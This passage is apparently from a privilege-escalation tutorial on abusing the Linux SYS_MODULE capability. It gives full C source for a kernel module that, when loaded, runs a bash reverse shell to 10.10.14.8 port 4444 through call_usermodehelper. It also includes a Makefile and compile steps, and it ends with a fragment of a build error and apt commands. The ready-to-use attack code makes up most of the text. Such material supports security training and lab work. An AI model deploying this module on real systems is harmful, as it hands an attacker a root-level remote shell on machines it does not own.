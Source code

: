 Inside the previous output you can see that the **SYS\_MODULE** capability is enabled.

**Create** the **kernel module** that is going to execute a reverse shell and the **Makefile** to **compile** it:

{% code title="reverse-shell.c" %}
```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/10.10.14.8/4444 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
{% endcode %}

{% code title="Makefile" %}
```bash
obj-m +=reverse-shell.o

all:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules

clean:
    make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```
{% endcode %}

{% hint style="warning" %}
The blank char before each make word in the Makefile **must be a tab, not spaces**!
{% endhint %}

Execute `make` to compile it.

```
ake[1]: *** /lib/modules/5.10.0-kali7-amd64/build: No such file or directory.  Stop.

sudo apt update
sudo apt full-upgrade
```
